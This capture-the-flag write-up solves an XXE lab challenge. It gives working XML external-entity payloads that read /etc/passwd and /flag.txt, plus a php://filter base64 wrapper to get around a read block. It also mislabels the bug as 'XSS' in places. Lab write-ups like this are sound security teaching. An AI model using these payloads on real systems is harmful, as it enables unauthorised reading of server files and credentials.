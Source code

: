### Solution

Once on the challenge page, we seen a login form. Trying to authenticate as ```admin:admin``` work.

![1-LoggedAdmin](https://github.com/V0lk3n/V0lk3n.github.io/assets/22322762/c9a38796-90bb-4399-920e-c223b7e84245)

As the name said, there should be an XML Eternal Entity vulnerability somewhere. So let's run Burp Suite, go to the "Proxy" tab, open a browser, and intercept the login request.

![2-LoggedAdminRequest](https://github.com/V0lk3n/V0lk3n.github.io/assets/22322762/174f4c50-c7cc-4138-bab2-78d339968958)

Now let's try to exploit the XSS to read ```/etc/passwd``` file, by using our "admin" username as entity.

```
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>

<user>
	<username>&xxe;</username>
	<password>admin</password>
</user>
```

![3-ExploitXSS](https://github.com/V0lk3n/V0lk3n.github.io/assets/22322762/5d0178b8-d0d5-458c-8f9d-79afb8cb2a52)


Great! We successfully exploited it! Now let's read our flag.

```
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "file:///flag.txt"> ]>

<user>
	<username>&xxe;</username>
	<password>admin</password>
</user>
```

![4-CantRead](https://github.com/V0lk3n/V0lk3n.github.io/assets/22322762/8fce169d-29b9-4014-b9c8-f027972241f7)

Oh. We are not allowed to read it... So how to retrieve it, whithout reading it? By encoding and then decoding it!

Let's encode it using base64!

```
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/flag.txt"> ]>

<user>
	<username>&xxe;</username>
	<password>admin</password>
</user>
```
